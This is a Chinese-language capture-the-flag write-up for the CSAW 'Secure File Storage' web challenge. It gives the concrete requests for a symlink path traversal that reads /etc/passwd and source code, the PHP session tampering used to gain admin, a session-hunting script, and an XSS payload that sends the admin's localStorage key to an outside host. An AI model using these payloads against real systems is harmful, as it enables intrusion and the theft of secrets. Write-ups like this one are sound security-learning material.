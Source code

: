 # Secure File Storage

從client.py可以看到很多API endpoint

其中symlink可以讓我們往上層目錄跳:

`http://web.chal.csaw.io:1001/api/v1/file/symlink` + `path=b/&target=../../../../../../../`

接著就可以任意讀寫檔了:

`http://web.chal.csaw.io:1001/api/v1/file/read` + `path=b/etc/passwd`

<br>

把Source Code讀出來之後，可以看到權限是用數字表示，15代表admin權限

所以我們只要把Session中的對應`priv`欄位改成15，就能變成admin

`current_user|O:4:"User":4:{s:8:"username";s:6:"kaibro";s:8:"password";s:60:"$2y$10$lHFCkKo5jF1J/AXDXB8ju.PdbTDwIaR2FVcREssi8hci4DledTHfb";s:5:"privs";s:1:"3";s:2:"id";s:3:"769";}`

之後就可以列目錄，和訪問`/admin`

其中`/tmp/user_data/flag.txt`為加密過後的flag

`U2FsdGVkX18vg7gzzc/Q2XG2O5vpgFvBvX7nv4mLxfsuKQxvSrMjHu11kDPfUIYVtJ9b5ohVP7olboQV5MDOjQ==`

加密方法在`/template/home.php`:

```javascript
if (localStorage.encryptSecret === undefined) {
    var secret = new Uint8Array(32);
    window.crypto.getRandomValues(secret);
    localStorage.encryptSecret = btoa(String.fromCharCode.apply(null, secret));
}
$("#uploadForm").submit(function(e) {
    e.preventDefault();
    var f = $("#file")[0].files[0];
    if (!f) {
        alert("You must select a file!");
    } else {
        var fr = new FileReader();
        var fn = f.name;
        fr.onload = function(file) {
            var ciphertext = CryptoJS.AES.encrypt(fr.result, atob(localStorage.encryptSecret)).toString();
            $.post({
                url: "/api/v1/file/edit",
                data: {path: fn, content: btoa(ciphertext)}
            }).done(function() {
                location.reload();
            });
        };
        fr.readAsText(f);
    }
});
```

加上從cmdline可以翻到`/usr/bin/node /admin/client.js`和`puppeteer`

代表key存放在admin的`localStorage`，然後我們要XSS偷出來

認真讀一下Code會發現，admin一定會訪問的只有`template/admin.php`和`template/admin_user.php`

其中只有`<h1>Welcome <?php echo $current_user->username; ?></h1>`是比較有機會做XSS的

但DB沒辦法Injection

能搞事的地方只有Session

寫個腳本找一下admin的session:

```python
import requests
import json

cookie={'PHPSESSID': 'maaca3mgclmdcn9hvr029u25b7'}
r = requests.post("http://web.chal.csaw.io:1001/api/v1/file/list", data={'path': 'a/tmp/'}, cookies=cookie)

res = (json.loads(r.text))

for i in res['data']:
    if i[0:4] == 'sess':
        print(i)
        rrr = requests.post("http://web.chal.csaw.io:1001/api/v1/file/read", data={'path':"a/tmp/{}".format(i)}, cookies=cookie)
        if "admin" in rrr.text:
            print "found!"
            break
```

最後找到`sess_4umud1lupqn0mpibor27r283o1`

接著就塞XSS Payload進去他的`name`，下次訪問時，就會被XSS

`http://web.chal.csaw.io:1001/api/v1/file/edit`

`path=a/tmp/sess_4umud1lupqn0mpibor27r283o1&content=current_user|O:4:"User":4:{s:8:"username";s:123:"<img src=x onerror=eval(document.location=atob('aHR0cDovL2thaWJyby50dy9zZWNyZXQ9Cg==').concat(localStorage.encryptSecret))>";s:8:"password";s:60:"$2y$10$H38hS7IMk1MzSg/usdBvjuRucRGkEKrc/tJhJQOD7249oRpNqWc5O";s:5:"privs";s:2:"15";s:2:"id";s:1:"1";}`

多塞幾次，就會收到帶有key的Request回來:

`216.165.2.60 - - [15/Sep/2019:17:26:50 +0000] "GET /secret=wvEXTzNpd5xPostMnBqsqHzfz7Ns1yjqL9kwsuAx4ds= HTTP/1.1" 404 488 "http://localhost/admin" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/72.0.3582.0 Safari/537.36"`

最後用CryptoJS去解密:

`CryptoJS.AES.decrypt("U2FsdGVkX18vg7gzzc/Q2XG2O5vpgFvBvX7nv4mLxfsuKQxvSrMjHu11kDPfUIYVtJ9b5ohVP7olboQV5MDOjQ==", atob("wvEXTzNpd5xPostMnBqsqHzfz7Ns1yjqL9kwsuAx4ds="))`

=> `flag{fddb53d704808cb859862d3eb9e9609bae3711bb}`

